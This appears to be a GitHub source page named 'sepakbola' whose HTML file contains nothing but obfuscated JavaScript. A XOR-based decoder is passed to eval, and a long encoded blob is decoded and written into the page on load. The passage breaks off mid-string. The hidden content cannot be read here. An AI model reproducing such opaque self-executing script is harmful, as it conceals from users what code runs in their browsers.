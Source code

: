 # sepakbola<html>

<head>

</head>

<body>

<script type="text/javascript">

<!-- 

eval(unescape('%66%75%6e%63%74%69%6f%6e%20%65%37%30%61%65%35%61%34%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%39%33%35%37%31%30%36%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%36%37%31%32%36%31%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%34%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));

eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%65%37%30%61%65%35%61%34%28%27') + '%3d%67%77%69%6d%33%0b%00%3f%6e%72%73%69%64%1f%77%75%69%68%3b%18%77%60%76%76%2a%5a%6c%68%1e%3f%00%04%5b%1b%76%0b%00%71%64%77%77%29%65%68%5d%6d%69%5c%72%63%6a%6f%35%6d%6b%6f%68%35%0f%01%5e%69%6e%6a%6b%35%49%61%65%3e%0b%00%67%64%6d%6a%69%58%76%31%5e%6d%62%5d%61%30%08%04%64%6a%6f%73%2e%6f%60%7f%63%30%28%2d%6e%72%36%0c%05%7e%09%03%31%29%69%77%74%6a%67%3b%0c%05%3f%64%64%54%62%3c%0e%07%3a%76%64%75%6b%66%3a%3d%22%72%63%77%69%63%3c%08%03%3b%2c%64%64%54%62%3c%0e%07%3a%58%6a%65%76%1b%5e%66%56%69%6e%6c%6f%3b%18%1e%29%2f%2b%2c%29%25%1c%3c%3f%5f%69%66%74%19%73%66%74%75%30%1c%75%63%64%72%67%1f%3f%0a%01%05%0c%0f%3a%1b%47%4a%3d%56%54%49%42%1b%64%75%60%6a%3c%0e%07%3a%62%71%6c%6b%1b%68%58%63%61%3f%24%60%68%25%1d%71%6a%6f%36%6d%54%68%65%3e%22%63%6c%22%19%77%6e%68%6f%66%3b%25%63%71%72%6a%37%2e%28%74%73%76%23%71%29%2d%6a%6c%65%2a%28%36%32%35%2e%7d%66%76%6e%69%21%1a%75%6c%6b%6d%6f%33%57%3b%25%63%71%72%6a%37%2e%28%74%73%76%23%61%6d%6c%62%6a%67%2b%5a%68%6e%2b%2b%25%2e%37%2c%62%6b%6e%2a%5b%20%1b%74%6c%61%68%69%31%61%5f%76%5c%3c%20%63%70%75%65%34%2d%2c%72%71%75%2b%66%68%6c%63%6d%68%28%59%6c%68%29%28%2d%29%32%2c%63%6c%61%29%66%5a%71%5f%25%1d%71%6a%6f%6a%6a%3f%63%72%6b%6f%3b%25%65%75%73%6b%36%2e%22%71%75%74%2b%61%6d%6a%66%6b%66%2a%5a%62%6b%2d%29%2d%2e%37%2a%66%6a%6f%2b%64%7d%6e%68%24%3b%0b%00%39%61%62%5a%60%3f%00%04%1a%1b%39%1f%2f%28%19%40%6f%6b%5b%54%6a%1a%68%64%72%67%1d%75%5e%64%1c%21%6a%72%5b%64%2b%64%69%24%19%2a%1b%43%6e%62%61%6e%66%1d%3f%6c%5c%6d%76%77%65%5a%66%1e%2f%2e%3b%0b%00%39%6a%5c%69%65%69%79%1e%5b%68%74%68%59%38%26%5e%68%75%6f%56%21%1a%68%6f%5d%3f%22%61%73%77%6c%6a%3f%29%2d%74%72%71%2c%62%6e%68%64%68%64%79%5f%65%6e%5c%68%5b%62%64%6d%2d%5f%6e%60%29%65%77%5c%61%2d%67%6a%38%62%60%3c%4a%2b%55%48%45%31%46%52%55%4f%4f%40%26%33%3a%2d%68%5e%6c%63%6d%75%39%0e%06%3d%66%5d%68%62%6d%72%3c%08%03%1f%1b%73%60%63%62%6d%74%2b%62%5b%71%58%4b%5a%75%64%67%1e%3f%1b%72%67%6c%61%6e%70%2d%60%58%79%5f%4e%5a%74%63%68%1d%7d%7b%1b%57%5c%3e%0b%00%1b%1d%60%77%6b%5a%73%62%6b%6f%15%61%76%5a%62%26%23%76%65%5e%77%5d%4d%54%77%67%69%2b%6e%77%6e%61%27%5a%6e%66%78%6b%67%6d%71%6d%23%36%7c%0a%01%1c%19%6a%72%5b%64%25%21%60%6e%26%2b%1b%6a%64%7a%1e%46%5a%71%63%22%24%20%34%0e%06%0c%0f%1e%1a%64%71%5f%65%25%26%5c%6c%6a%67%6c%61%25%2f%1d%21%45%28%56%4c%43%33%45%5a%52%4a%4f%41%21%23%36%0c%05%3f%2b%6a%56%6c%63%6b%71%38%0f%07%3d%6c%58%6e%60%65%72%1a%68%6f%5d%3f%22%61%73%77%6c%6a%3f%29%2d%58%61%68%2c%67%6a%63%66%68%60%7b%6c%2c%6d%60%72%2d%62%61%28%4d%5d%74%6a%66%76%72%47%69%61%60%6b%2d%32%2b%6d%6c%70%67%2c%71%70%2c%67%6a%20%1b%70%70%65%63%3f%24%71%63%72%71%2e%65%5a%72%58%66%5d%68%62%6d%72%25%3b%3d%28%68%5f%6b%6c%6e%76%3d%08%04%3e%68%64%73%5a%1c%5a%62%68%76%66%6b%72%3f%22%5b%32%65%62%37%57%2f%59%65%35%5f%29%2f%29%61%59%2e%5b%3b%5c%2a%29%2e%37%2a%2c%28%5e%29%60%2b%57%21%1a%6d%5c%6b%67%38%26%6f%69%6b%69%68%6a%6e%66%6f%21%2d%3b%0c%05%3f%1d%2c%20%1e%56%55%4b%49%4d%4b%4a%1f%2e%29%3f%00%04%3e%68%71%77%6e%60%19%66%67%39%26%65%5f%65%66%28%6d%61%64%6f%2a%2a%23%19%79%77%6a%66%38%21%76%60%71%73%2c%5f%6a%66%21%3c%3f%1c%2b%2f%08%03%25%70%69%58%67%61%63%6d%37%2e%31%6d%58%63%67%65%6f%6a%34%2a%7e%5f%69%66%74%72%5d%5a%5f%62%6a%6c%6d%76%6b%62%30%6b%6e%69%66%1c%6b%68%6e%67%5a%71%1e%69%5e%6b%68%6f%68%19%25%1e%2a%1b%1e%2e%2a%2d%32%6a%5a%6e%66%6c%68%30%2b%36%60%6d%6b%75%2a%65%5d%6c%6c%6a%73%31%22%4e%68%6a%71%66%6e%5d%19%43%69%74%5a%1d%4d%6d%63%75%20%2f%23%41%68%6a%74%66%71%67%59%5c%19%49%66%71%64%2a%2a%69%5a%6b%6d%2f%6e%64%6d%62%62%7c%16%6d%67%69%73%2b%75%6f%58%6f%70%69%58%67%61%63%6d%37%2e%7f%2b%5b%6d%66%5d%65%56%6c%77%6e%5f%6d%2e%65%28%2b%63%2e%72%69%67%69%6b%69%5f%73%37%6f%68%6d%61%7c%23%6e%6d%68%71%75%6f%5c%6b%60%62%6a%33%25%35%6a%5a%61%62%63%6b%66%35%2b%79%1a%79%70%6d%60%60%2f%2a%76%5b%68%69%60%64%67%2b%68%5a%61%67%77%6e%33%2c%6b%74%32%6d%63%63%64%65%72%30%2d%32%68%75%61%6b%6b%6a%6d%74%37%66%63%61%65%62%6d%37%69%54%62%66%62%6b%61%2f%71%6e%6f%31%2c%7c%16%72%74%6c%66%63%2b%2d%19%66%65%6e%58%60%63%2e%18%71%70%6d%66%64%2e%2b%1c%64%60%5c%67%67%29%1d%76%73%6e%64%66%2d%29%15%69%58%61%60%5d%76%29%1a%73%75%6b%62%68%2f%2a%1b%73%67%66%60%6e%74%59%6b%6b%69%63%68%31%2d%1e%6c%6a%6f%62%30%64%64%6c%61%62%77%37%2f%2a%2d%24%34%6f%61%67%79%34%2a%30%6d%69%69%64%75%66%6c%6a%33%54%5c%69%6c%69%73%76%60%32%73%6c%6c%33%25%35%68%62%62%66%76%37%29%34%59%6b%75%79%69%6f%31%2d%35%75%64%65%73%63%36%28%25%2e%27%7e%1e%72%74%61%64%6c%60%77%5b%62%6c%66%66%6f%2b%68%5c%65%66%76%6f%33%26%6e%72%30%65%63%63%62%61%73%31%2c%32%62%70%67%69%63%6a%6d%72%33%67%62%60%65%68%68%31%6b%5c%62%66%64%6f%60%2e%5e%6e%79%72%6d%6e%37%2e%31%6d%58%63%67%65%6f%6a%2b%76%6c%6d%34%2a%78%1a%73%75%60%64%66%65%1a%62%63%6c%5b%68%64%2b%18%70%77%69%63%69%60%1d%63%6f%5f%64%63%2f%1f%75%7b%62%67%68%66%1e%6d%5f%63%62%58%70%2d%16%72%74%67%60%6d%61%1d%77%66%67%61%6e%7e%5c%6d%69%61%63%68%37%29%1f%6d%6b%6f%68%35%62%66%64%61%62%71%33%2e%2b%2c%24%3e%6a%67%65%71%34%2a%36%69%68%68%65%75%6c%69%6c%31%5c%5c%69%6a%6d%72%77%61%32%79%69%6a%31%2d%35%68%64%66%67%77%36%29%3e%5c%6d%77%71%69%6f%37%29%34%74%65%65%79%66%30%2a%2d%2e%27%78%1a%73%75%69%6e%57%75%62%66%64%61%62%71%33%2f%30%6b%77%68%6c%64%6f%6a%71%30%65%60%63%67%61%6f%3e%6e%5b%67%61%67%6c%62%2c%5d%6c%70%75%62%6b%30%35%30%23%31%6d%58%63%67%65%6f%6a%2b%76%6c%6d%34%2a%36%69%68%68%65%75%6c%69%6c%31%6f%63%6e%5c%75%66%75%61%32%69%67%69%6b%69%5f%73%37%6f%68%6d%61%7c%16%72%74%6e%6a%5c%1a%64%67%6d%5a%69%64%21%1d%76%75%68%69%58%1d%64%6a%59%61%65%21%1d%76%75%68%69%58%1d%6e%5d%61%61%5a%79%2a%19%77%73%6b%6d%5f%19%71%62%60%64%62%75%58%6c%6f%62%67%6f%33%2f%1b%6a%6e%63%63%31%63%60%67%65%65%75%35%2a%2c%29%28%35%6e%66%63%72%30%2d%32%6f%6c%6f%60%79%67%6d%6d%37%5f%58%6e%6e%6b%76%70%64%3e%72%6d%6b%37%2e%31%6f%60%60%63%70%33%25%35%58%6c%71%72%6d%68%33%2f%30%73%60%69%72%62%31%2c%2e%2a%20%7c%1c%77%72%75%62%6b%71%59%6a%6c%66%60%6b%35%2b%1c%6a%62%6a%63%67%1d%1d%66%63%65%61%67%62%32%57%69%68%67%60%6c%2f%6f%58%63%62%71%6a%3f%2f%6a%73%36%5d%6d%69%6e%6d%31%1f%37%68%30%67%35%60%35%64%6a%6f%73%2e%6f%60%7f%63%30%2a%2f%6e%72%36%6d%66%6d%61%2c%6d%63%63%64%65%72%30%2f%29%6f%73%37%69%54%62%66%62%6b%61%30%2c%29%6f%73%1c%29%15%2e%1a%2a%2c%6e%72%36%69%68%68%65%75%6c%69%6c%31%5c%5c%69%6a%6d%72%77%61%32%7f%2b%63%6d%61%63%72%37%30%36%32%37%75%62%6e%30%2b%36%6a%67%63%75%35%2b%79%1a%7b%67%66%66%6a%75%75%64%65%73%63%36%28%25%2e%27%30%65%63%63%62%61%73%31%2d%29%25%23%31%6b%6a%6d%63%71%60%68%6d%36%58%57%6d%6d%6f%70%72%67%36%73%2a%62%6a%65%68%76%30%29%36%72%6d%6d%33%2f%30%6e%60%6a%66%76%31%2d%35%6e%60%67%73%31%2c%32%57%69%76%77%6a%6b%30%2d%7c%1c%6b%68%58%7c%63%68%70%72%67%66%71%61%35%2a%2c%29%28%35%62%66%64%61%62%71%33%2e%2b%2c%24%3e%6e%6d%68%64%72%63%6a%6f%35%5a%5e%6a%62%6a%77%77%60%35%70%28%60%69%67%61%71%3f%2c%31%77%6a%6e%30%2d%32%6d%62%63%61%79%34%2a%30%69%63%64%71%33%2f%30%5e%6e%79%72%6d%6e%37%2e%7f%08%03%1c%6f%65%77%68%75%64%6c%6b%72%2f%6e%60%75%66%36%28%25%6e%72%30%6d%5f%66%61%60%69%64%36%29%65%76%1a%2b%36%6e%6d%6e%60%73%62%6b%6f%3f%5f%58%68%6a%6a%77%71%64%34%58%61%6f%79%63%68%31%2d%6e%72%36%76%66%67%70%61%3f%2f%2a%2b%20%35%76%60%71%73%2e%5d%6d%6c%61%6c%31%5e%63%6c%71%64%6d%30%5e%58%56%65%65%69%6a%73%6c%61%33%1c%2b%2c%29%3e%68%6d%6d%60%1f%63%68%69%68%69%70%58%63%72%31%59%6a%6c%66%60%6b%35%2b%1c%6a%62%6a%63%67%1d%1d%46%43%45%41%47%42%32%57%69%68%67%60%6c%2f%6f%58%63%62%71%6a%3f%2f%6a%73%36%5d%6d%69%6e%6d%31%1f%47%4b%40%31%71%28%67%6c%61%64%77%31%35%30%3c%35%66%62%6e%6e%6e%5c%70%35%6d%6b%6f%68%7b%0f%01%1e%72%63%73%60%1f%70%5e%58%56%65%65%69%6a%73%6c%61%2c%5c%6c%68%6e%67%34%1a%18%2d%2e%2a%36%5b%68%69%60%64%67%34%1a%28%6d%76%1a%6e%6e%6b%62%60%19%16%2e%2a%2b%2d%2e%2a%36%5b%68%69%60%64%67%2b%68%5a%61%67%77%6e%33%1f%28%6c%71%3e%5c%6d%73%28%6d%62%5c%65%68%74%36%19%25%1e%2b%2b%6d%76%1a%2c%29%6f%73%1c%2c%24%2e%6a%73%1d%1d%64%63%67%34%63%61%60%6a%66%76%31%1d%2e%31%6a%77%62%69%62%6d%62%71%30%1b%65%67%66%61%64%69%30%6c%58%69%62%63%6d%62%2b%58%6a%75%73%6c%69%33%15%30%32%26%36%6e%5b%61%65%66%6d%63%2c%79%69%6a%31%1d%2e%31%6d%6e%6c%62%70%60%62%68%30%1b%6f%63%6e%5c%75%66%75%61%32%70%1d%69%5a%6f%63%66%60%6a%64%1b%77%5b%54%5d%61%64%6f%69%77%6b%65%2a%58%6b%6d%62%6c%30%1b%1e%60%33%63%30%61%32%37%5b%62%6c%66%66%6f%34%1a%2c%69%77%1b%6f%6e%61%67%66%1b%1e%63%33%60%58%62%67%37%61%68%67%65%63%71%34%1a%2f%37%6f%73%37%6c%54%6c%65%62%6b%34%1a%30%69%77%1b%2c%32%65%5f%66%67%64%68%65%37%19%32%6b%74%19%25%1e%2a%30%5f%69%68%61%64%6d%2e%6e%58%69%67%77%68%37%1e%29%6d%71%34%7e%09%03%16%72%63%75%64%1e%63%63%6b%5e%6e%61%2d%15%1d%76%62%73%67%1a%60%6c%5d%66%60%2d%15%1d%76%62%73%67%1a%6a%5b%65%66%5f%75%21%1e%19%77%64%70%63%1d%77%66%67%61%6e%15%75%58%6c%6f%62%67%6f%33%1f%2b%1c%6f%62%68%67%30%65%63%63%62%61%73%31%1c%28%25%2e%27%30%69%63%64%71%33%1f%2b%37%69%62%6d%63%77%64%69%6c%37%19%5e%59%6f%6e%61%73%76%66%36%72%6d%6d%33%1f%2b%37%76%6c%62%76%63%37%1e%2b%2d%29%22%30%60%60%66%6e%6e%5a%74%34%58%69%6e%5c%60%79%0c%0f%1d%63%6c%6b%75%64%6a%6f%73%2e%6f%60%7f%63%30%2a%2c%6e%72%36%67%68%6d%70%2c%6b%5f%6f%62%69%77%30%3c%6b%66%5a%68%32%65%69%69%62%71%67%6d%6b%33%5e%59%6f%6e%61%73%76%66%36%72%6d%6d%33%2d%28%6c%71%3e%71%63%67%71%66%30%2c%29%2f%26%37%75%68%76%76%2e%5c%6a%63%62%6f%35%69%65%66%6d%72%31%58%6a%6a%6d%6f%33%1c%2b%2c%29%3e%74%2f%62%6b%62%67%75%33%36%32%35%32%69%67%69%6b%69%5f%73%37%5b%6b%6c%5f%62%70%28%63%6c%6b%5c%76%6b%72%5c%6c%68%6e%67%34%19%65%63%60%31%5f%58%5c%60%63%6b%62%73%6c%67%37%1d%67%5e%29%61%2b%62%32%57%5f%59%60%62%6c%6d%70%6f%63%2e%65%6c%54%61%67%31%28%71%67%5f%62%66%77%29%6d%6c%68%67%5a%6f%2b%65%6f%58%63%62%61%6f%79%26%76%6c%6d%2a%19%2f%31%5e%65%5e%28%21%1d%2b%5a%5c%2f%5b%2c%20%34%59%5d%5a%6e%61%68%6c%70%68%66%28%60%6a%5a%63%64%3f%2b%6f%6c%77%2b%6e%64%6f%62%5a%6e%2c%6a%6c%5b%67%64%63%6c%71%21%73%6c%6c%2d%16%2c%32%5a%63%5c%2b%29%1a%2e%5a%5d%28%54%2f%23%30%5f%5f%59%66%66%6d%6c%71%6f%69%2b%63%6e%5c%61%67%37%2c%6a%68%29%6d%6c%68%67%5a%6f%2b%65%6f%58%63%62%61%6f%79%26%76%6c%6d%2a%19%2f%31%5e%65%5e%28%21%1d%2b%5a%5c%2f%5b%2c%20%34%59%5d%5a%6e%61%68%6c%70%68%66%28%60%6a%5a%63%64%3f%2b%6d%2e%69%67%6c%60%58%6d%2e%63%6b%54%62%63%66%6b%72%22%71%6e%6f%2f%1f%2b%3d%5f%64%59%2c%2a%19%2c%58%5e%2a%5d%28%2c%35%58%5a%5e%65%65%6f%6e%72%6d%60%2c%6c%6b%5b%64%60%34%6e%64%6f%62%5a%6e%2c%6a%6c%5b%67%64%63%6c%71%21%73%6c%1c%5b%62%72%76%6c%68%2a%19%60%5a%2f%65%2c%67%21%1d%2b%5a%5c%2f%5b%2c%20%34%2e%73%64%57%65%63%77%28%5c%6d%6f%65%62%69%29%6b%54%62%63%76%6e%34%2b%6d%71%34%2e%69%6e%7f%2b%58%6c%6f%62%67%6f%2c%6d%5a%60%60%78%6d%30%2a%6d%76%31%5f%6e%6d%67%61%6b%20%6c%5b%67%64%73%69%37%28%6f%73%37%5a%62%6a%6d%69%37%1d%64%63%67%34%6b%5d%65%69%67%6c%64%37%2e%1a%2e%69%77%30%70%64%7d%72%2f%67%60%5d%6d%6f%58%73%62%6b%6f%3f%68%6d%6d%60%35%7f%2b%60%68%6d%5e%75%63%34%62%6c%73%63%68%76%5b%5e%58%67%66%67%69%77%6d%61%34%19%60%5a%2f%65%2c%67%3e%5c%5b%58%66%61%68%6a%74%69%67%29%60%60%5f%65%66%37%2b%75%60%5b%64%62%70%2c%61%67%6c%66%5c%6c%2f%62%6b%5e%67%65%64%63%72%22%77%6a%6e%2e%1e%67%63%28%5f%2a%56%2a%19%29%35%5f%64%5f%28%26%30%5e%58%56%65%65%69%6a%73%6c%61%2c%66%6e%5d%66%68%34%2f%6e%6a%74%2f%69%60%69%66%5d%6b%20%61%68%5a%61%67%67%6b%75%27%77%6b%69%21%1d%64%67%2e%5d%29%5e%2d%1c%29%34%58%6b%5c%2b%22%36%5c%5b%5e%62%60%69%6b%74%63%62%2f%62%68%5f%65%60%33%2a%6e%6f%2c%61%67%6c%66%5c%6c%2f%62%6b%5e%67%65%64%63%72%22%77%6a%6e%2e%1e%2b%37%5a%62%5b%24%2a%19%29%35%5f%64%5f%28%26%30%5e%58%56%65%65%69%6a%73%6c%61%2c%66%6e%5d%66%68%34%2f%6c%28%6a%63%6b%64%5e%69%29%66%67%5f%66%62%60%68%76%25%75%68%6b%28%1a%27%36%5b%65%5f%2f%2e%1e%2b%37%5a%62%5b%24%27%31%59%5c%5d%61%62%6b%68%76%6a%65%20%67%6f%5a%62%63%30%69%60%69%66%5d%6b%20%61%68%5a%61%67%67%6b%75%27%77%6b%19%57%69%76%77%6a%6b%2e%1e%2b%37%5a%62%5b%24%2a%19%29%35%5f%64%5f%28%26%30%70%64%7d%72%2f%67%60%5d%6d%6f%58%73%62%6b%6f%3f%68%6d%6d%60%7b%2c%71%6e%6a%59%6b%6d%79%70%6a%58%76%5c%5b%5e%62%60%69%6b%74%63%62%30%18%63%60%64%1d%6f%68%6d%61%19%67%63%6a%66%5c%72%1a%6e%5a%6d%6c%68%6d%15%2e%1a%2b%36%5c%6d%6f%65%62%69%36%28%65%76%1a%68%6a%6a%63%61%19%1c%67%2c%5a%57%5d%58%30%5f%69%68%61%64%6d%2e%6e%58%69%67%77%68%37%28%37%60%6c%34%58%6b%6d%62%6c%30%18%5e%2f%28%5f%2b%5d%30%60%60%66%6e%6e%5a%74%34%63%6b%6d%66%6d%61%2c%57%6a%6d%58%66%35%64%6a%6f%73%31%5e%6e%61%62%1a%2a%30%6e%72%1d%38%6d%62%5d%6d%21%6d%5b%6d%6e%2b%69%60%6b%66%65%37%6c%54%6c%65%62%6b%34%2b%6d%71%34%6e%65%6f%20%71%63%67%71%66%30%34%29%6f%73%37%69%54%62%66%62%6b%61%30%35%69%77%1b%31%69%7d%35%76%66%75%72%2f%5c%6d%66%64%6a%33%56%63%6c%77%60%6c%31%71%64%77%77%29%65%68%5d%6d%69%5c%72%63%6a%6f%35%6d%6b%6f%68%35%66%62%6e%6e%6e%5c%70%35%59%68%6e%56%65%7f%2d%5a%2c%65%6b%58%6f%60%5b%19%7e%5c%5b%58%66%61%68%6a%74%69%67%29%5a%62%6a%6d%69%37%1e%19%30%34%32%36%31%34%3e%5d%6d%6f%6a%6c%30%1d%1a%61%65%62%32%65%5f%66%67%64%68%65%28%5b%68%77%70%6e%60%34%1a%35%30%28%33%20%32%6f%6c%6f%60%79%67%6d%6d%37%1e%68%60%6d%5e%77%65%77%68%35%76%66%75%72%2f%5c%6d%66%64%6a%33%15%5d%67%6d%71%63%68%36%75%62%73%70%2c%66%66%5b%67%6a%71%30%1d%28%6f%73%1c%28%65%76%1a%2b%1d%6c%65%5f%58%27%29%2c%2d%15%2c%28%2f%1d%2c%34%29%19%2f%2d%2f%20%3e%7b%2c%5c%2f%61%6c%5a%19%74%59%5d%5a%6e%61%68%6c%70%68%66%28%5a%68%6f%6b%6b%3f%1e%19%2a%2c%2f%2b%2c%28%34%58%6b%6d%62%6c%30%1b%1e%60%64%63%32%6f%5a%60%65%6c%68%65%2e%5f%69%76%71%6e%6a%31%1c%37%38%28%33%26%36%6e%6d%6e%60%73%62%6b%6f%3f%1e%68%66%69%5f%76%64%77%62%30%70%64%7d%72%2f%5a%69%67%65%6b%33%1f%58%61%6f%79%63%68%30%71%63%72%71%2c%6c%63%5d%65%62%71%30%1b%2c%6e%72%1d%28%6f%73%1c%29%15%6c%65%59%5c%26%28%2d%2d%1f%29%2e%2d%15%2c%34%2f%1d%2e%2c%2e%20%34%7e%09%03%23%59%28%64%6a%2e%1a%76%19%5d%6c%70%75%62%6b%30%1b%2d%35%62%60%60%60%63%70%33%15%2f%2a%2b%6d%76%31%69%64%61%77%36%19%25%35%6f%5a%6f%61%63%6b%33%1f%5a%71%75%62%35%6a%5a%61%62%63%6b%66%2a%59%6b%75%79%69%6f%31%1d%2d%37%6d%71%34%6b%6b%6a%6c%72%63%6c%6b%34%1a%5c%5b%6c%6c%68%74%79%63%31%69%64%61%62%71%33%1f%2b%37%75%62%6e%30%1b%2d%35%1a%72%60%63%77%64%33%15%36%2a%26%36%7b%2c%5a%2b%60%6c%32%19%7e%60%6d%6d%71%2b%69%64%73%62%31%1c%28%39%6e%72%30%68%5f%68%62%60%69%31%1c%28%3b%6e%72%1b%5c%73%76%6a%32%70%62%60%75%6d%34%1a%2a%35%2e%6a%75%32%7a%2d%5b%2b%6a%69%34%1b%5c%2a%1a%2b%5e%2d%64%6b%37%15%5f%30%63%6a%70%67%6f%19%74%65%6b%6f%79%2b%75%66%64%61%62%71%33%1f%59%6b%6d%69%35%59%6c%69%69%68%37%19%1c%65%62%67%3e%72%67%73%71%2b%66%60%5a%68%69%5d%75%6c%69%6c%31%1d%68%6d%6b%64%34%7e%2a%5e%26%67%2a%6c%1d%75%64%6a%6f%73%2e%6f%60%7f%63%30%1b%2f%32%6a%75%32%7a%2d%5b%2a%6c%2e%6a%1b%76%60%6d%6b%75%2a%68%65%73%68%34%1a%2a%33%6e%72%36%67%68%6d%70%2c%7a%63%63%64%65%72%30%1d%6f%68%69%69%58%61%35%7f%65%71%2a%64%71%72%5d%5a%5f%62%6a%6c%6d%76%6b%62%2f%5e%6e%6b%6c%6e%33%16%2e%34%35%31%37%34%36%5b%68%69%60%64%67%2b%68%5a%61%67%77%6e%33%2c%6b%74%32%56%69%6e%6c%6f%34%19%63%67%61%30%6c%58%69%62%63%6d%62%2b%6e%60%67%73%31%2f%69%7d%35%6a%5a%61%62%63%6b%66%2a%69%65%66%6d%72%30%28%6d%76%31%72%60%63%77%64%33%27%2e%6a%73%78%0b%00%2b%58%6b%59%5d%69%61%5f%73%66%6f%59%74%64%65%62%6c%6f%5e%56%66%5b%6d%6b%63%6e%1d%72%1f%6b%6b%6a%6c%72%63%6c%6b%34%1a%5c%5b%6c%6c%68%74%79%63%31%1b%77%2b%63%6b%65%62%73%36%19%3c%37%33%30%1d%6a%67%63%75%35%1b%34%69%7d%35%1a%77%6a%6e%30%1d%2c%2c%6b%74%32%15%6c%63%64%65%72%30%1d%2c%37%6b%74%32%15%66%67%62%62%66%76%37%19%2f%30%1c%7c%15%28%5b%6f%5f%5f%6a%69%58%76%66%6e%5e%7b%67%66%66%6a%6d%5d%5e%61%5e%6d%6a%64%61%1e%2c%59%70%72%76%6a%6f%1f%70%1c%5b%54%5d%61%64%6f%69%77%6b%65%35%1b%1f%30%68%2f%36%2a%31%35%1a%5e%74%6d%68%6b%6b%3f%1e%6a%6c%64%68%76%60%6b%34%1b%62%6e%63%72%2f%68%64%74%67%37%19%2e%37%6c%71%3e%1e%64%6f%6a%5f%76%37%19%6d%62%63%61%79%35%1a%67%64%6d%6a%69%58%76%31%1c%6f%62%68%67%30%1d%5c%6d%6f%65%62%69%29%6b%54%62%63%76%6e%34%1a%2f%69%77%30%1c%61%68%67%65%63%71%34%1a%2f%34%6f%73%37%19%79%63%72%77%28%5f%6e%64%66%69%31%1c%5a%68%68%76%66%6f%35%1a%69%60%69%66%29%61%68%67%65%63%71%34%1a%2f%2b%6f%73%37%19%79%63%72%77%28%6d%62%5c%65%68%74%36%19%25%1e%2b%6b%75%1e%2b%6d%71%1f%18%2c%29%25%35%1a%58%6a%6a%6d%6f%33%1f%18%62%67%6b%35%1a%6b%5c%62%66%64%6f%60%31%1c%29%15%2f%2a%6b%75%35%1a%63%6e%69%77%29%67%54%6b%63%6f%74%34%1a%6e%58%69%68%29%6a%68%6c%63%65%36%1e%64%6a%6f%73%2e%73%64%6c%61%62%77%37%1e%35%2d%29%34%1b%6c%6e%66%67%76%62%6a%68%30%1d%6b%62%6f%5d%75%6c%70%67%30%1d%74%2f%64%6f%63%66%74%33%15%37%33%30%1d%7b%2c%5c%6d%5d%5a%6c%6d%54%77%67%69%5a%6d%67%6f%77%62%69%29%5b%62%62%73%1b%76%1e%58%6a%71%2a%68%65%73%6c%68%65%31%1d%5c%6d%6f%65%62%69%29%5b%62%76%31%1b%6d%69%69%64%75%66%6c%6a%33%15%6c%67%6f%5c%72%63%73%64%34%1b%73%60%69%72%62%31%1d%2f%2a%2d%24%34%1b%5e%58%56%65%65%69%6a%73%6c%61%33%1f%18%2c%29%25%35%1a%63%60%67%65%65%75%35%1b%5f%58%61%5d%22%2a%2d%2e%74%65%19%2a%1b%32%29%65%76%23%30%1d%69%74%60%6b%61%6f%6b%76%3f%1e%62%62%61%62%67%6b%32%1f%7e%09%03%23%70%63%67%60%69%2f%6f%64%6c%6b%6b%6f%66%67%74%66%1d%75%0f%07%69%68%68%65%75%6c%69%6c%31%1d%6c%67%69%58%73%62%72%64%3e%0b%00%6b%5c%62%66%64%6f%60%2e%5e%6e%79%72%6d%6e%37%1e%37%33%2f%2d%36%21%32%00%04%62%66%64%61%62%71%33%1f%2b%37%0c%0f%69%74%66%6f%60%6e%6a%76%35%1b%64%60%69%62%67%6d%36%0b%00%78%0c%05%2d%72%60%69%63%6d%2e%6f%63%69%6d%6e%69%68%65%77%68%1e%74%62%61%63%6d%1d%72%0a%01%6c%6e%66%67%76%62%6a%68%30%1d%58%5d%68%6b%6d%78%72%67%30%08%04%76%6a%69%35%1b%2c%32%00%04%6e%66%63%72%30%1d%29%34%0e%06%76%6c%62%76%63%37%1e%2b%2d%29%22%30%09%03%6d%63%63%64%65%72%30%1d%28%2f%2b%21%32%00%04%58%6c%6f%62%67%6f%33%2f%30%09%03%70%0b%00%2d%5c%6a%58%5c%69%6b%5a%75%64%67%59%74%62%61%63%6d%6e%5e%5c%63%5d%6f%63%63%6e%6b%5e%1e%71%1d%69%68%68%65%75%6c%69%6c%31%1d%5f%58%6e%6e%6b%76%70%64%3e%1e%70%2e%64%68%66%60%71%35%1b%35%30%3c%35%1a%6f%60%60%76%37%19%37%6b%74%32%15%72%6d%6b%37%1e%2b%6d%71%34%1b%6e%60%6a%66%76%31%1d%2c%6a%75%32%1f%63%61%60%6a%66%76%31%1d%2e%31%1d%7c%1f%2d%5d%6d%57%5f%6a%6f%5c%77%67%6f%5e%71%62%60%64%62%6d%5d%58%65%5f%6c%6b%64%6b%6b%5f%19%23%5c%77%77%71%69%6c%6d%5a%1f%70%1c%5b%54%5d%61%64%6f%69%77%6b%65%35%1b%1f%30%68%2f%36%2a%31%35%1a%5e%74%6d%68%6b%6b%3f%1e%6a%6c%64%68%76%60%6b%34%1b%62%6e%63%72%2f%68%64%74%67%37%19%2e%37%6c%71%3e%1e%64%6f%6a%5f%76%37%19%6d%62%63%61%79%35%1a%67%64%6d%6a%69%58%76%31%1c%5b%61%69%59%60%36%1e%58%6a%6b%63%66%6e%2c%67%5f%66%62%70%6d%30%1d%2b%6f%73%37%19%6d%63%63%64%65%72%30%1d%2b%32%6b%74%32%15%72%67%73%71%2b%5b%69%60%60%6d%36%19%56%63%6c%77%60%6c%31%1d%6d%66%6d%61%2c%6d%63%63%64%65%72%30%1d%2b%2d%6b%74%32%15%72%67%73%71%2b%69%65%58%63%6c%73%33%15%2e%1a%2a%6d%76